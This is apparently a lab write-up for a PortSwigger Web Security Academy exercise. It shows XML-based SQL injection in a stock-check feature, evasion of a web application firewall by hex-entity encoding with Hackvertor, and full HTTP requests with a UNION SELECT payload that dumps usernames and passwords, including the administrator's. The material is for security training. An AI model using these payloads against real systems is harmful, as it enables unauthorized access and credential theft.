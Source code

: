 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4185a547-fb59-4522-8043-a5954cf42cc4)


## Solution :

you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in **JSON or XML** format and use this to query the database.

These different formats may even provide alternative ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often just look for common SQL injection keywords within the request, so you may be able to bypass these filters by simply encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT: 

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

This will be decoded server-side before being passed to the SQL interpreter. 


----------------------------

### Identify the vulnerability -

There is a sql injection vulnerability in the `check stock` feature .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/101e4bd9-2379-47c3-812c-ea601d8d222f)

**Request**

```http
POST /product/stock HTTP/1.1
Host: 0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Cookie: session=36761REtmfgIxvy0ZIbkCEGBqqe9OGFG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net/product?productId=12
Content-Type: application/xml
Content-Length: 108
Origin: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>12</productId>
  <storeId>1</storeId>
 </stockCheck>
```
**Response**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bb988b34-bbfc-40fc-b868-46b18cc2b6fb)


There are 2 xml tags where we can inject our sql injection payload ie `productID` & `StoreId`.

When testing sql injection query in `productID`,  we get a response like this

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4e2496e2-3a72-4514-8288-acd314131b65)

When testing sql injection query in `storeID`,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2317ab5d-b0e9-421b-8599-5759f7f00990)

Both show the same **403 Forbidden error**

Why is is getting blocked?

```
A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this. 
```

So we need to bypas WAF and execute our sql payload.

### Bypass WAF - 

We need to Obfuscate out xml payload inorder to bypass WAF. As per lab description we'll use **Hackvector** for this

> Hackvertor is a **tag-based conversion tool** that supports various escapes and encodings including HTML5 entities, hex, octal, unicode, url encoding etc. 
> It uses **XML-like tags** to specify the type of encoding/conversion used.

NOw select the payload -> Right click -> Extensions -> Hackvector -> Encode -> Hex entities

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4a369c2a-2994-4aca-bd0b-bccaf97d8fc2)

Now the request containing the highlighted payload is modified 

```http
POST /product/stock HTTP/2
Host: 0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Cookie: session=36761REtmfgIxvy0ZIbkCEGBqqe9OGFG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net/product?productId=12
Content-Type: application/xml
Content-Length: 127
Origin: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>9 </productId>
  <storeId><@hex_entities>1 UNION SELECT null<@/hex_entities></storeId>
 </stockCheck>
```
**Response**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/335a1b47-420a-4c6b-b7fc-88497b0035a5)

So we can now confirm that `storeID` parameter is indeed vulnerable & we bypassed the WAF by encoding our payload with hex entities.

> ProductID parameter doesn't seem to be vulnerable since it didn't return NULL value in response

### Craft payload -

Our payload to retrieve the admin user's credentials from users table,

```sql
UNION SELECT username || '~' || password FROM users
```

After encoding it with hex entities by using hackvertor,

**Response**

```
POST /product/stock HTTP/2
Host: 0a08008903b8f2558169219f00cf00ed.web-security-academy.net
Cookie: session=lr1cmtwOzGbHOxkXSLEUkZKKyVFIP2u4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a08008903b8f2558169219f00cf00ed.web-security-academy.net/product?productId=9
Content-Type: application/xml
Content-Length: 176
Origin: https://0a08008903b8f2558169219f00cf00ed.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>9 </productId>
  <storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>
</storeId>
 </stockCheck>
 ```
 
 
**Response**

```html
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 100

carlos~td28xlz7rzclt1lnzoq1
812 units
wiener~m0dg0ikxf86tq3lmqmit
administrator~wtw26hhafjjaybqu0z88
```
Now login as admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dd5dd87d-4741-4cde-87fc-95654e4d0ed0)




